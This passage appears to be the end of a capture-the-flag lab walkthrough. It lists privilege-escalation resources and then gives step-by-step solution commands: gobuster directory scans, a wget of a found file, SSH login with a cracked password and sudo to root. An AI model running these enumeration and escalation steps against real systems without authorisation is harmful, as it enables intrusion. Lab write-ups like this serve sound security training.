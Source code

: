 	- https://gtfobins.github.io (I can not overstate the usefulness of this for priv esc, if a common binary has special permissions, you can use this site to see how to get root perms with it.)

- Windows:

	- https://www.fuzzysecurity.com/tutorials/16.html  (Dictates some very useful commands and methods to enumerate the host and gain intel)

	- https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp (A bit old but still an incredibly useful script)

	- https://github.com/411Hall/JAWS (A general enumeration script)

	// no answer needed

### [Section 7 - Final Exam]: Good Luck :D

- `gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	
	- You will find a directory. Let's call it `s*****`

- `gobuster dir -u http://<TARGET_IP>/s***** -x .txt,.js,.key,.php,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

	- You will find the `s*****.txt` file.

- `wget http://<TARGET_IP/s*****/s*****.txt`

- `Search on Google that string. You will find the reversed.`

- `nmap -p 22 <TARGET_IP>`

- `ssh nyan@<TARGET_IP>` and then enter the cracked pwd.

- `ls`

- `cat user.txt` and enter the first flag.

- `sudo -l`

- `sudo /bin/su`

- Enter the root flag.


# congratulations!!!!
